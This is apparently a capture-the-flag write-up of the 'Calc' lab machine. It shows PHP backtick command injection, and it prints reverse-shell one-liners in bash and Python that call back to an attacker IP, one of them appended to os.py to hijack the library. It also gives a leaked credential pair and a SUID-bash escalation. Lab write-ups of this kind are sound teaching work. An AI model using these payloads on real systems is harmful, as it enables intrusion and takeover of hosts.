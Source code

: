 ```yaml
---
title: 'Calc Writeup'
date: '2024-11-09'
tags: ['Command Injection', 'Linux', 'Hacking Club']
draft: false
summary: 'The Calc machine is vulnerable to code injection, unauthorized file access, and Python library hijacking for privilege escalation.'
images: ['/static/images/calc-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/calc-writeup-images/default.png)

---

## Port Scanning

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 b6:e6:c1:f0:e4:01:a0:e5:c0:fb:84:e1:4f:ed:62:c3 (RSA)
|   256 f5:6d:d7:13:c7:3a:c4:63:a1:38:f0:f3:65:83:82:3e (ECDSA)
|_  256 ca:f8:f2:bf:b8:25:08:77:39:0c:c3:53:0f:cc:9f:40 (ED25519)
80/tcp  open  http    Apache httpd 2.4.46 (() PHP/7.4.19)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Calc
|_http-server-header: Apache/2.4.46 () PHP/7.4.19
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
```

## Only ports 22 (SSH), 80 (HTTP), and 111 (RPC) are open.

## http://172.16.7.88

![calc](/static/images/calc-writeup-images/image.png)

The application is an online calculator.

![calc 1](/static/images/calc-writeup-images/image1.png)

I captured the request with Burp.

![calc 2](/static/images/calc-writeup-images/image2.png)

Testing command injection:

Since this is a PHP application, we can test by passing the famous ‘backticks’, as PHP understands that it should execute whatever is inside ````.

In this case, I passed the `id` in the calc parameter.

![calc 3](/static/images/calc-writeup-images/image3.png)

---

## Foot Hold

`bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'`

`crtl+u` to encode in Burp.

![calc 4](/static/images/calc-writeup-images/image4.png)

![calc 5](/static/images/calc-writeup-images/image5.png)

---

## Lateral Movement

`sysadmim` user's credentials found in the bash history.

![calc 6](/static/images/calc-writeup-images/image6.png)

`sysadmin:55371a2307eb5fee50f54dc93224e96f`

![calc 7](/static/images/calc-writeup-images/image7.png)

---

## Privillege Escalation

`sudo -l`

![calc 8](/static/images/calc-writeup-images/image8.png)

We can execute calc.py as root; however, we do not have write privileges on the script.

![calc 9](/static/images/calc-writeup-images/image9.png)

Looking at the script, we can see that it imports the **os** module from Python, which is responsible for executing system commands.

![calc 10](/static/images/calc-writeup-images/image10.png)

To perform library hijacking, we need permission to modify the **os.py** library, which is located in the directory: **/usr/lib64/python3.7/os.py**.

In this case, we have write permission.

![calc 11](/static/images/calc-writeup-images/image11.png)

With this, we can add a reverse shell in Python inside the library.

Just place the reverse shell on the last line of the file:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.31.150",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")

```

![calc 12](/static/images/calc-writeup-images/image12.png)

Finally, just run the command: sudo /usr/bin/python3 /opt/pycalc/calc.py

![calc 13](/static/images/calc-writeup-images/image13.png)

---

## Privillege Escalation 2 (Unintended)

Looking at the directory where the file belongs, we can verify that we have write permission directly on it.

![calc 14](/static/images/calc-writeup-images/image14.png)

So, we can simply delete the **calc.py** and create another one.

```python
import os

os.system("chmod u+s /bin/bash")
```

![calc 15](/static/images/calc-writeup-images/image15.png)

![calc 16](/static/images/calc-writeup-images/image16.png)
